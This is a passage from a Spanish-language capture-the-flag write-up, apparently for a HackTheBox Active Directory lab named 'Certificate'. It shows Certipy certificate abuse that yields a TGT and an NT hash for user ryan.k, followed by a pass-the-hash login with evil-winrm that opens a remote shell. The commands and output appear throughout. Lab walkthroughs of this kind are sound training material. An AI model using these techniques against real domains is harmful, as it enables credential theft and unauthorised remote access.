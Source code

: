 ```
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 28
[*] Successfully requested certificate
[*] Got certificate with UPN 'ryan.k@certificate.htb'
[*] Certificate object SID is 'S-1-5-21-515537669-4223687196-3249690583-1117'
[*] Saving certificate and private key to 'ryan.k.pfx'
[*] Wrote certificate and private key to 'ryan.k.pfx'
```

Veremos que ha funcionado, por lo que ahora vamos a obtener el `TGT` del usuario, pero esto puede dar un error si no sincronizamos bien el `timezone` del `DC` por lo que haremos lo siguiente:

```shell
ntpdate certificate.htb ; certipy auth -pfx 'ryan.k.pfx' -dc-ip '<IP>'
```

Info:

```
2025-10-18 12:39:59.145531 (-0700) +1311.378520 +/- 0.014745 certificate.htb 10.10.11.71 s1 no-leap
CLOCK: time stepped by 1311.378520
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'ryan.k@certificate.htb'
[*]     Security Extension SID: 'S-1-5-21-515537669-4223687196-3249690583-1117'
[*] Using principal: 'ryan.k@certificate.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ryan.k.ccache'
[*] Wrote credential cache to 'ryan.k.ccache'
[*] Trying to retrieve NT hash for 'ryan.k'
[*] Got hash for 'ryan.k@certificate.htb': aad3b435b51404eeaad3b435b51404ee:b1bc3d70e70f4f36b1509a65ae1a2ae6
```

Ahora este `hash NTLM` lo podemos utilizar para autenticarnos realizando un `Pass-The-Hash` de esta forma:

```shell
evil-winrm -i certificate.htb -u ryan.k -H b1bc3d70e70f4f36b1509a65ae1a2ae6
```

Info:

```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> whoami
certificate\ryan.k
```
